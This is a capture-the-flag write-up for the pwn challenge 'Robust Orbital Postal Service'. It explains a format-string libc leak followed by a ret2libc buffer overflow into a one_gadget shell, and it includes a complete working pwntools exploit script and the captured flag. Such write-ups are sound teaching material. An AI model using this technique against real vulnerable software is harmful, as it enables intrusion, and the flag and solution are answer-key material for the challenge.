 # Robust Orbital Postal Service
```You managed to break into another one of the imposter's communication system, named the Robust Orbital Postal Service. This service lets the imposters send messages to one another secretly. Are you able to find out about their secrets?```

## Reconnaissance
Doing the things that we should do in Pwn:

![](Images/checksec.png)
![](Images/ida.png)

Also, note that we have a LIBC file:

![](Images/libc.png)
## Vulnerability Analysis
- `printf()` without *format strings* means a **Format String Exploit.**
- Unlike the previous FSBS challenge, there is no `getflag()` function.
    - Unfortunately, there is *NX bit* up.
    - So it has to be a **ret2libc** exploit (at least, that's what I assumed or this challenge would have been out of my capacity).
        - This is also reasonable considering we are given a `custom libc version`.
- PIE implies the need to leak PIE base... or do we?

**Verdict: ret2libc**

## The 15-min Exploit. (Refer to Script)
ret2libc attacks (that I know of) primarily concern themselves with exploiting `one_gadgets`, which spawns a shell so long as the constraints are met.

So we will be looking for `libc offsets` to jump into the `one_gadget`:

![](Images/libc-offset.png)

And the `one_gadget` itself:
![](Images/onegadget.png)

Then, we simply perform your standard ret2libc exploit routine: 

1. Leak `libc base` with a known `libc` function:
2. 
![](Images/libcleak.png)

We are using the **Format String Exploit** from the previous challenge (FSBS).

![](Images/libc-offset.png)

Then we look up the custom LIBC offset using LIBC-database.


In this case, our dear address is given by this line in our script:
```python
libc_base=int(r.recvline()[:-1],16)-243-0x236c0
# Subject to change, of course, due to PIE.
```

2. Find our one_gadget address.

This... requires no explanation. Just use `one_gadget`.
![](Images/onegadget.png)

I used the first one.

3. Lastly, **clear all constraints** as stipulated and jump to the `one_gadget`.

Because we are using `rax`, we can simply terminate the input string (`'\0'`) to reset it to `NULL`.

And just like that we clear our constraints!
We spare you the pain of looking at us connect to the server and thus we retrieve the flag:

`DSO-NUS{13514e093f9b3c56ed27bad097ea810b27c1e754b7de98d6ff8bc3006f5ab82d}`

## Appendix: The Script
```python
from pwn import *
context.log_level='DEBUG'
#r=process(["./ROPS"],env={"LD_PRELOAD": "libc.so.6"})
r=remote("ctf-jfi4.balancedcompo.site",9995)
# ROPS.so.6 in libcdatabase: local-f6cb23f4bb2899adab95d11fc2e5eba3ed1c3266
context.terminal=['/usr/bin/tmux', 'splitw', '-h']
r.recvuntil("name:")
r.sendline("%19$p") # This time we want a LIBC address whose offset we can find. This one has offset 243.
r.recvuntil("to:")
r.recvline()
libc_base=int(r.recvline()[:-1],16)-243-0x236c0
print(hex(libc_base))
#pause()
one_gadget=libc_base+0x44b9f
# Three candidates. Depends on the gadgets you can find. I'll try the first one...
# 0x44b9f - requires rax==0
# 0x44bf3 - requires [rsp+0x30]==0
# 0xe85c6 - requires [rsp+0x60]==0
r.sendline(b"\0"+b"A"*263+p64(one_gadget)) # Offset is again found at 264.
r.interactive()

```

